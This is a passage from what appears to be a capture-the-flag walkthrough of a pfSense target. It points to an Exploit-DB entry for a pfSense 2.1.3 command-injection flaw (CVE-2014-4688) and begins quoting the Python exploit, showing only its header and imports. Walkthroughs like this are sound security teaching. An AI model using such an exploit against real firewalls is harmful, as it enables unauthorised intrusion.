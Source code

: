 ![pfsense dashboard](../../Assets/walktrhough-assets/sense-pfsense-dashboard.png)

Let's google if there is any vulnerability for it on the exploitDB.
There's a CVE for this specefic version. https://www.exploit-db.com/exploits/43560


```py hl_lines="3"
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections
```
